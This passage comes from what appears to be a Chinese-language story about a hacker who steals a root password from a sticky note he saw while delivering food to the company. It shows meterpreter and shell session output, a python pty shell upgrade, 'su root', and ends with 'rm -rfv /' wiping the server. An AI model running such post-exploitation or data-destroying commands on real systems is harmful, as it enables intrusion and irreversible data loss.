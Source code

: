 权限还是很低的，尽管无法做一些让公司损失大的事情，但至少能够偷窥和搞破坏了，不过黑客会就此满足吗？ 答案是不会，因为他还想要提权，获取 root 权限，这样便能为所欲为了。

由于这台服务器的系统与内核过于老旧，大多数复现漏洞的代码要么只在3.x 以上的内核版本中有效，要么无法编译。

看起来他需要想想其他办法。

他在白天骑着摩托穿街过巷送外卖，夜晚则是游走网络间的黑客。

一次偶然的机会，他去送那个公司的员工订的外卖，进入办公区时，无意之间看到贴在显示器上的便签。

上面写着一些数字和字母，也许是什么有用的东西。

趁着员工们用餐，他用手机偷偷将便签拍了下来便离开了。

比较巧的是，这张便签是刚换的密码，需要再隔一段时间才会更改。

下班后回到终端，尝试着用偷窥来的密码直接登陆 root 
```txt
meterpreter > shell
Process 1376 created.
Channel 2 created.
```
获得交互 shell
```txt
/bin/sh -i
sh: no job control in this shell
sh-4.1$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.1$ 
```
进行登录
```txt
bash-4.1$ su root
su root
Password: ************

[root@localhost upload]# 
```

可见，一口气便登录成功，root 权限到了他的手里。

```txt
[root@localhost upload]# whoami
whoami
root
[root@localhost upload]# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:system_r:httpd_t:s0
[root@localhost upload]# 
```

接下来他便可以为所欲为了..

对，他最后进行了删库
```txt
[root@localhost upload]# rm -rfv /
```
最后导致公司损失巨大..
